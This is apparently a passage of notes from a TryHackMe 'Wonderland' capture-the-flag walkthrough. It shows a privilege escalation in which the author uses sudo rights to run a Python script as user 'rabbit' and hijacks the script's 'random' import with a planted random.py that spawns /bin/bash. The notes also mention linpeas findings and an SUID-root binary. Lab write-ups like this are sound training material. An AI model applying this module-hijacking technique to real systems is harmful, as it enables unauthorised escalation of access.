 # There are also some more users
hatter  rabbit  tryhackme
# No access to their directories 

# Let's try linpeas
# Found CVE-2021-4043. I can but it's too easy)
# Also found /usr/bin/perl files with SUID of root, but they can be run only buy Hatter user

# user flag was located in /root floder. There is a little bit logicaly to tell the truth...

# Let's see sudo permissions for alice user
sudo -l

Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

# So we can run python script as rabbit user
# Hmmmmm... That python script imports random module. 
# So we can create another random module that will bo located nearby than default random module
echo "import os; os.system('/bin/bash')" > random.py

# Getting rabbit session:
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

# So we are in rebbit user
# Let's see entries of the /home/rabbit
# There is one file teaParty
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
